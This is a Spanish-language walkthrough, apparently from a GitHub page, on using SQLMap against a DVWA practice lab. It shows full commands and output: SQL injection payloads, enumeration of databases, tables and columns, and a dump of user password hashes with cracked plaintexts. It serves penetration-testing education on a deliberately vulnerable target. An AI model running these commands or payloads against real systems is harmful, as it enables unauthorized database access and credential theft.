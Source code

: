 # TOOLS SQL INJECTION
## SQL-MAP
___
Es una herramienta de prueba de penetración de código abierto que automatiza la detección y explotación de vulnerabilidades de inyección SQL en aplicaciones web. La herramienta es compatible con múltiples sistemas de gestión de bases de datos, incluidos MySQL, Oracle, PostgreSQL y Microsoft SQL Server, y utiliza técnicas avanzadas de prueba de inyección SQL para determinar si una aplicación web es vulnerable a ataques de inyección SQL y, de ser así, automatizar la explotación de la vulnerabilidad. SQLMap también puede utilizarse para recuperar información valiosa de bases de datos, como tablas, columnas, credenciales y datos confidenciales almacenados.
#### Ejecución

```java                                                         
┌──(s3cur1ty3c㉿kali)-[~/Escritorio]
└─$ sqlmap -u "http://192.168.200.152/vulnerabilities/sqli/?id=&Submit=Submit" --cookie="PHPSESSID=o39naa5urd4qrgkfo5n6fv4jf2; security=low"___
       __H__                                                                                                                                                                                
 ___ ___[)]_____ ___ ___  {1.6.12#stable}                                                                                                                                                   
|_ -| . [,]     | .'| . |                                                                                                                                                                   
|___|_  [']_|_|_|__,|  _|                                                                                                                                                                   
      |_|V...       |_|   https://sqlmap.org                                                                                                              
[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 14:37:45 /2023-02-15/
[14:37:45] [WARNING] provided value for parameter 'id' is empty. Please, always use only valid parameter values so sqlmap could be able to run properly
[14:37:45] [INFO] resuming back-end DBMS 'mysql' 
[14:37:45] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (NOT - MySQL comment)
    Payload: id=' OR NOT 8746=8746#&Submit=Submit

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: id=' AND (SELECT 3829 FROM(SELECT COUNT(*),CONCAT(0x716b787671,(SELECT (ELT(3829=3829,1))),0x716a6a6b71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- FOjM&Submit=Submit

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=' AND (SELECT 9284 FROM (SELECT(SLEEP(5)))kwAX)-- qFqJ&Submit=Submit

    Type: UNION query
    Title: MySQL UNION query (NULL) - 2 columns
    Payload: id=' UNION ALL SELECT NULL,CONCAT(0x716b787671,0x636a636242684369556d51536741684458506b75686570496c6566764d44727a537a4d6a6d784b50,0x716a6a6b71)#&Submit=Submit
---
[14:37:45] [INFO] the back-end DBMS is MySQL
web application technology: Apache 2.2.14, PHP 5.3.1
back-end DBMS: MySQL >= 5.0
[14:37:45] [INFO] fetched data logged to text files under '/home/s3cur1ty3c/.local/share/sqlmap/output/192.168.200.152'
[*] ending @ 14:37:45 /2023-02-15/
```
La sentencia `sqlmap -u "http://192.168.200.152/vulnerabilities/sqli/?id=&Submit=Submit" --cookie="PHPSESSID=o39naa5urd4qrgkfo5n6fv4jf2; security=low"` ejecuta el programa SQLMap para buscar y explotar vulnerabilidades de inyección SQL en la URL proporcionada.

Los parámetros de la sentencia son:

>* "-u": URL objetivo de la página web a analizar.
>* "--cookie": Cookies de sesión necesarias para acceder a la página.
>* "PHPSESSID": Identificador de sesión PHP en la cookie.
>* "security": Nivel de seguridad de la página web, en este caso, "low".

En resumen, esta sentencia ejecuta una prueba de inyección SQL en la página web `http://192.168.200.152/vulnerabilities/sqli/` utilizando las cookies de sesión indicadas.

### Enumeración DataBase
El parámetro `--dbs` es una de las opciones que se pueden proporcionar a SQLMap para indicar que se deben enumerar todas las bases de datos disponibles en el servidor subyacente. SQLMap luego intentará inyectar código SQL en el sitio web objetivo para extraer información sobre las bases de datos disponibles en el servidor.
``` java
┌──(s3cur1ty3c㉿kali)-[~/Escritorio]
└─$ sqlmap -u "http://192.168.200.152/vulnerabilities/sqli/?id=&Submit=Submit" --cookie="PHPSESSID=o39naa5urd4qrgkfo5n6fv4jf2; security=low" --dbs
[15:09:39] [INFO] fetching database names
available databases [6]:
[*] cdcol
[*] dvwa
[*] information_schema
[*] mysql
[*] phpmyadmin
[*] test
[15:09:39] [INFO] fetched data logged to text files under '/home/s3cur1ty3c/.local/share/sqlmap/output/192.168.200.152'
[*] ending @ 15:09:39 /2023-02-15/
```
#### Enumeración de Tablas
El parámetro `--tables` en la sentencia de SQLMap indica que SQLMap debe enumerar todas las tablas disponibles en la base de datos especificada con el parámetro -D.
``` java
 sqlmap -u "http://192.168.200.152/vulnerabilities/sqli/?id=&Submit=Submit" --cookie="PHPSESSID=o39naa5urd4qrgkfo5n6fv4jf2; security=low" --tables -D dvwa 
[15:17:33] [INFO] the back-end DBMS is MySQL
web application technology: Apache 2.2.14, PHP 5.3.1
back-end DBMS: MySQL >= 5.0
[15:17:33] [INFO] fetching tables for database: 'dvwa'
[15:17:33] [WARNING] reflective value(s) found and filtering out
Database: dvwa
[2 tables]
+-----------+
| guestbook |
| users     |
+-----------+
```
#### Enumeración de Columnas
El parámetro `--columns` en SQLMap se utiliza para enumerar las columnas (campos) de una tabla específica en una base de datos.
``` java
sqlmap -u "http://192.168.200.152/vulnerabilities/sqli/?id=&Submit=Submit" --cookie="PHPSESSID=o39naa5urd4qrgkfo5n6fv4jf2; security=low" -D dvwa -T users --columns
[15:21:41] [INFO] the back-end DBMS is MySQL
web application technology: PHP 5.3.1, Apache 2.2.14
back-end DBMS: MySQL >= 5.0
[15:21:41] [INFO] fetching columns for table 'users' in database 'dvwa'
[15:21:41] [WARNING] reflective value(s) found and filtering out
Database: dvwa
Table: users
[6 columns]
+------------+-------------+
| Column     | Type        |
+------------+-------------+
| user       | varchar(15) |
| avatar     | varchar(70) |
| first_name | varchar(15) |
| last_name  | varchar(15) |
| password   | varchar(32) |
| user_id    | int(6)      |
+------------+-------------+
[15:21:41] [INFO] fetched data logged to text files under '/home/s3cur1ty3c/.local/share/sqlmap/output/192.168.200.152'
[*] ending @ 15:21:41 /2023-02-15/
```
#### Enumeración por consulta SQL-Query
En este caso, la opción `--sql-query` se utiliza para especificar una consulta SQL que selecciona los datos de las columnas específicas de la tabla "users". Los datos se muestran en la salida de la consola de SQLMap, en el formato predeterminado.
``` java
sqlmap -u "http://192.168.200.152/vulnerabilities/sqli/?id=&Submit=Submit" --cookie="PHPSESSID=o39naa5urd4qrgkfo5n6fv4jf2; security=low" -D dvwa --sql-query "SELECT user, first_name, last_name, password FROM users"
[15:49:22] [INFO] the back-end DBMS is MySQL
web application technology: Apache 2.2.14, PHP 5.3.1
back-end DBMS: MySQL >= 5.0
[15:49:22] [INFO] fetching SQL SELECT statement query output: 'SELECT user, first_name, last_name, password FROM users'
[15:49:22] [WARNING] reflective value(s) found and filtering out
SELECT user, first_name, last_name, password FROM users [5]:
[*] admin, admin, admin, 5f4dcc3b5aa765d61d8327deb882cf99
[*] gordonb, Gordon, Brown, e99a18c428cb38d5f260853678922e03
[*] 1337, Hack, Me, 8d3533d75ae2c3966d7e0d4fcc69216b
[*] pablo, Pablo, Picasso, 0d107d09f5bbe40cade3de5c71e9e9b7
[*] smithy, Bob, Smith, 5f4dcc3b5aa765d61d8327deb882cf99
[15:49:22] [INFO] fetched data logged to text files under '/home/s3cur1ty3c/.local/share/sqlmap/output/192.168.200.152'
[*] ending @ 15:49:22 /2023-02-15/
```
#### Volcado o descarga de credenciales.
El parámetro `--dump` es utilizado en la herramienta de seguridad SQLMap para extraer los datos de las columnas de una tabla de una base de datos que ha sido comprometida con éxito por medio de una inyección de SQL.
Cuando SQLMap encuentra una vulnerabilidad de inyección de SQL en un sitio web o una aplicación web, intenta utilizar esa vulnerabilidad para obtener acceso a la base de datos subyacente. Una vez que ha obtenido acceso, se puede utilizar el parámetro --dump para extraer los datos de las columnas de una tabla en particular.
``` java                                                                 
┌──(s3cur1ty3c㉿kali)-[~/Escritorio]
└─$ sqlmap -u "http://192.168.200.152/vulnerabilities/sqli/?id=&Submit=Submit" --cookie="PHPSESSID=o39naa5urd4qrgkfo5n6fv4jf2; security=low" -D dvwa -T users --columns -C "user, password" --dump                                                         
Database: dvwa
Table: users
[5 entries]
+---------+---------------------------------------------+
| user    | password                                    |
+---------+---------------------------------------------+
| admin   | 5f4dcc3b5aa765d61d8327deb882cf99 (password) |
| gordonb | e99a18c428cb38d5f260853678922e03 (abc123)   |
| 1337    | 8d3533d75ae2c3966d7e0d4fcc69216b (charley)  |
| pablo   | 0d107d09f5bbe40cade3de5c71e9e9b7 (letmein)  |
| smithy  | 5f4dcc3b5aa765d61d8327deb882cf99 (password) |
+---------+---------------------------------------------+
```